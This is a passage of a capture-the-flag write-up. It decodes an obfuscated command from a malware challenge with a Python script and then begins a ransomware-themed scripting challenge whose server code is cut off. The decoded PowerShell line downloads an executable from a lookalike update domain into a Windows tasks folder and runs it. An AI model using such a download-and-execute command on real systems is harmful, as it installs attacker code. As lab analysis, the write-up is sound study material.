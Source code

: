 In this pcode, the decryption of the above command takes place by taking every three letters from the string and shifting it left by 16. I wrote a program to automate the above shifting. 

```py
def decode(cipher):
    decodedString = ""
    for i in range(0, len(cipher), 3):
        decodedString += chr(int(cipher[i:i+3]) - 16)
    return decodedString

print(decode("128127135117130..."))
```

On decoding the given string, we get the command: 
```sh
powershell (Invoke-WebRequest 'http://vvindowsupdate.com:8080/update' -UseBasicParsing -Headers @{'heartbeat'='9885b80063bb7ba74f75b6f8aff291bc91cfa8eb77d942d433c9178aa9e99c6f'} -OutFile 'C:\Windows\Tasks\ChromeUpdate.exe'); C:\Windows\Tasks\ChromeUpdate.exe
```  

On getting the response headers via curl, we get the first flag.  

```
└─$ curl -X GET 'http://vvindowsupdate.com:8080/update' -H 'heartbeat: 9885b80063bb7ba74f75b6f8aff291bc91cfa8eb77d942d433c9178aa9e99c6f' -i
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.12.3
Date: Sun, 26 May 2024 13:21:44 GMT
Content-Disposition: attachment; filename=RansomwareUsingAES-CTR.exe
Content-Type: application/x-msdos-program
Content-Length: 10589460
Last-Modified: Wed, 22 May 2024 21:13:28 GMT
Cache-Control: no-cache
ETag: "1716412408.7779915-10589460-4089187576"
Date: Sun, 26 May 2024 13:21:44 GMT
Flag: flag{734b55......d5f5a5082a3920d6}
Connection: close
```

# Hashes on Hashes on Hashes (Scripting, medium)

```
I created a server to manage all my encrypted data from my lucrative ransomware business. It's still in development, but I should be okay as long as.. wait, what? Somebody leaked a log file??
```
Two files were attached. A log file and server.py file.

Server.py
```py
import socket
import base64
from hashlib import md5
from datetime import datetime

host = '0.0.0.0'
port = 9001

class log:
    @staticmethod
    def print(message):
        with open('./decryption_server.log', 'a') as f:
            now = datetime.now()
            f.write(now.strftime("%d/%m/%Y %H:%M:%S") + "\t")
            f.write(message + '\n')    

def decrypt(encrypted):
    key = open('key.txt').read()
```